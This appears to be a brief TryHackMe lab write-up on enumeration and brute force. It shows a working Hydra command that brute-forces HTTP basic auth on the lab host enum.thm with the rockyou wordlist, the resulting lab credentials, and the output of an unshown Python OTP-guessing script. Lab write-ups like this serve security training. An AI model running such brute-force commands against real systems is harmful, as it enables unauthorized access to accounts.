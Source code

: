 ```yaml
---
title: Enumeration & Brute Force
description: 'Brute forcing basic auth with Hydra and a OTP with a custom python script'
pubDate: 2024-08-03
category: 'tryhackme'
tags: ['One Time Pass' ]
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/645b19f5d5848d004ab9c9e2-1719928599415'
---
```


## BASIC AUTH
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt enum.thm http-head /labs/basic_auth/
...[snip]...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-head://enum.thm:80/labs/basic_auth/
[80][http-head] host: enum.thm   login: admin   password: yellow
1 of 1 target successfully completed, 1 valid password found
```

## OTP

Using a python script (`script.py`) we can enumerate the emails and get the OTP:

```
user: admin@admin.com
token: 150
password: m09CjZgF
```
